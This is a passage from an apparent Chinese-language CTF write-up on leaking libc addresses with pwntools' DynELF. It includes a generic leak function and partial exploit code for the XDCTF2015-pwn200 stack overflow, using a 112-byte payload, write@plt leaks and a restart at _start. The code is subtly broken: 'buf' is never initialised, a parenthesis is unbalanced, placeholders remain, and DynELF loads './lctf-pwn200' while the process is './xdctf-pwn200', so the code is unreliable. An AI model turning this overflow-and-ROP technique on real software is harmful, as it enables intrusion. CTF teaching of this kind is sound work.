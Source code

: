（2）puts输出完后还有其他输出 ， 在这种情况下的leak函数可以这么写。

```
def leak(address):
  count = 0
  data = ""
  payload = xxx
  p.send(payload)
  print p.recvuntil("xxx\n")) #一定要在puts前释放完输出
  up = ""
  while True:
    c = p.recv(1)
    count += 1
    if up == '\n' and c == "x":  #一定要找到泄漏信息的字符串特征
      data = buf[:-1]                     
      data += "\x00"
      break
    else:
      buf += c
    up = c
  data = buf[:4] 
  log.info("%#x => %s" % (address, (data or '').encode('hex')))
  return data
```

其他需要注意的地址

在信息泄露过程中，由于循环制造溢出，故可能会导致栈结构发生不可预料的变化，可以尝试调用目标二进制程序的_start函数来重新开始程序以恢复栈。

XDCTF2015-pwn200

本题是32位linux下的二进制程序，无cookie，存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件。具体的栈溢出位置等调试过程就不细说了，只简要说一下 **借助DynELF实现利用的要点：**

1）调用write函数来泄露地址信息，比较方便；

2）32位linux下可以通过布置栈空间来构造函数参数，不用找gadget，比较方便；

3）在泄露完函数地址后，需要重新调用一下_start函数，用以恢复栈；

4）在实际调用system前，需要通过三次pop操作来将栈指针指向systemAddress，可以使用ropper或ROPgadget来完成。

接下来就直接给出利用代码。

```
from pwn import *
import binascii
p = process("./xdctf-pwn200")
elf = ELF("./xdctf-pwn200")
writeplt = elf.symbols['write']
writegot = elf.got['write']
readplt = elf.symbols['read']
readgot = elf.got['read']
vulnaddress =  0x08048484 
startaddress = 0x080483d0      #调用start函数，用以恢复栈
bssaddress =   0x0804a020    #用来写入“/bin/sh\0”字符串
def leak(address):
  payload = "A" * 112
  payload += p32(writeplt)
  payload += p32(vulnaddress)
  payload += p32(1)
  payload += p32(address)
  payload += p32(4)
  p.send(payload)
  data = p.recv(4)
  print "%#x => %s" % (address, (data or '').encode('hex'))
  return data
print p.recvline()
dynelf = DynELF(leak, elf=ELF("./lctf-pwn200"))
```